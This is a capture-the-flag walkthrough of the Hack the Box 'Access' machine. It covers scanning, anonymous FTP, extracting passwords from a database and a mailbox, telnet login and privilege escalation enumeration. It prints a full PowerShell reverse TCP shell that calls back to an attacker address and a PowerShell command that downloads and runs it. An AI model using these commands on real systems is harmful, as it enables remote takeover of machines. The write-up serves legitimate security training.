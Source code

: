 # Hack the Box - Access

```CSS
Machine IP: 10.10.10.98 - Windows
```

- [NMAP: All TCP ports](#nmap-open-ports)
- [NMAP: Open ports Service Version](#nmap-service-version)
- [FTP Anonymous Login](#ftp-login)
  - [Download Files](#ftp-downloads)
- [Telnet Anonymous Login](#telnet-anonymous-login)
- [Website](#webserver)

## NMAP Open Ports
```CSS
▶ nmap -Pn -sS -p- 10.10.10.98 -T4 --min-rate 5000 -oN nmap.surface

Nmap scan report for 10.10.10.98
Host is up (0.19s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
23/tcp open  telnet
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 26.68 seconds
```

## NMAP Service Version
```CSS
▶ nmap -sC -sV -p 21,23,80 10.10.10.98 -T4 --min-rate 5000 -oN nmap.deep

Nmap scan report for 10.10.10.98
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: MegaCorp
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 187.59 seconds
```

---

## Telnet Anonymous Login
  - Telent log in failed.
```CSS
▶ telnet 10.10.10.98
```
![image](https://user-images.githubusercontent.com/83878909/231275176-f81e52d6-3975-497a-b375-17f4cc9eb3e2.png)

---

## Website
![image](https://user-images.githubusercontent.com/83878909/231276321-d9810c39-9ac9-4c59-b50d-0f7a296ede38.png)

---

## FTP Login
  - Log in to ftp, anonymous login allowed. 
```CSS
▶ ftp 10.10.10.98
```
![image](https://user-images.githubusercontent.com/83878909/231272883-d87603cc-e9b5-461c-a670-5c36226f6a57.png)

### FTP Downloads
  - Download all directories and files found in FTP.
```CSS
▶ wget -m --no-passive ftp://anonymous:anonymous@10.10.10.98
```
![image](https://user-images.githubusercontent.com/83878909/231274006-305f40e6-8efc-4af0-8f4c-6e85319bab51.png)

### ZIP File
  - Access File
```CSS
▶ 7z x Access\ Control.zip
```
![image](https://user-images.githubusercontent.com/83878909/233909981-8b6ad107-b1cf-4ad8-87f8-fc00f663bc5b.png)

  - Technical Information
```CSS
▶ 7z l -slt Access\ Control.zip
```
![image](https://user-images.githubusercontent.com/83878909/233909126-48769505-adde-4982-beaf-2fe1635970f4.png)


### MBD File
  - Look into the file
```CSS
▶ strings backup.mdb
```
![image](https://user-images.githubusercontent.com/83878909/233927444-536ae3fa-9377-4efd-b6ac-783b4b7df837.png)

  - Extract Information
```CSS
▶ mdb-tables backup.mdb | grep --color=auto user
```
![image](https://user-images.githubusercontent.com/83878909/233927978-8404a46f-e088-4f4c-8d8c-5e6638269cbc.png)
```CSS
▶ mdb-export backup.mdb auth_user
```
![image](https://user-images.githubusercontent.com/83878909/233928307-60dc1282-0923-472e-a148-cdb5bedba4ea.png)

### Extract ZIP File Contents
```CSS
▶ 7z x Access\ Control.zip
```
```CSS
password: access4u@security
```
![image](https://user-images.githubusercontent.com/83878909/233932586-4b1e138c-13d7-4197-81ac-46189c7cd293.png)

---

### PST File
  - Check the file.
```CSS
▶ file Access\ Control.pst
```
File Type: Microsoft Outlook Personal Storage

  - Convert `.pst` file to `.mbox` file.
```CSS
▶ readpst Access\ Control.pst
```
![image](https://user-images.githubusercontent.com/83878909/233936965-6d6ef291-91dd-4cd2-b153-8d1101af60b6.png)

  - Read emails
```CSS
▶ less Access\ Control.mbox
```
![image](https://user-images.githubusercontent.com/83878909/233937943-92fb0eed-9159-4d42-9f28-8807dc589fa5.png)
```CSS
Username: security
Password: 4Cc3ssC0ntr0ller
```

---

## Telnet Login
  - Login using found credentials.
```CSS 
▶ telnet 10.10.10.98
```
![image](https://user-images.githubusercontent.com/83878909/233939322-189c0e45-6083-4a2f-bed0-05bd8100d025.png)

---

### Shell Upgrade
#### Nishang
  - Modify and upload `nishang` TCP shell.
  - `/opt/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1`.

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/aabac44e-4472-4b19-8361-484e3da4546a)

The script should look like:
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ecc6375d-aa15-4a90-85ee-29593524ee66)

Nishang PowerShell One-Line Reverse TCP Shell
```CSS
$client = New-Object System.Net.Sockets.TCPClient('<attacker_IP>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

#### Upload & Execute
```CSS
▶ python -m http.server
```
```CSS
▶ nc -nlvvp 4444
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/34e2c57a-9b02-4433-a031-22ebb0673841)


```CSS
C:\Users\security\Desktop>powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.24:8000/Invoke-PowerShellTcpOneLine.ps1')"
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ad32556d-50f5-4ce8-8e35-28b43a952815)


## Stored Windows Credentials
  - Check if any stored credentials exist.
```CSS
PS C:\Users\security\Desktop> cmdkey /list
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/cec4e58e-8623-4069-8037-e537471d27ef)

The commands below are used to enumerate all the accessible shortcut (.lnk) files on the system, and examine them for the presence of the "runas" command.
```CSS
C:\Users\security\Desktop> Get-ChildItem "C:\" *.lnk -Recurse -Force | ft fullname | Out-File shortcuts.txt
```
```CSS
C:\Users\security\Desktop> ForEach($file in gc .\shortcuts.txt) {Write-Output $file; gc $file | Select-String runas}
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4a94fd1d-331d-4899-be61-0e6d3cbbfc85)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/0b239099-9d01-4e8e-b5bc-54150d0dec2f)

The results above show that the ZKAccess shortcut on the Public Desktop has been configured using the runas `command`.

The Desktop folder is not immediately visible since it is a hidden folder. It is possible to traverse the folder and list its contents. The folder is accessible
to the builtin "NT AUTHORITY\INTERACTIVE" group. Users who log in "interactively" locally, or over a Remote Desktop or telnet session will have the Interactive SID in their access token.



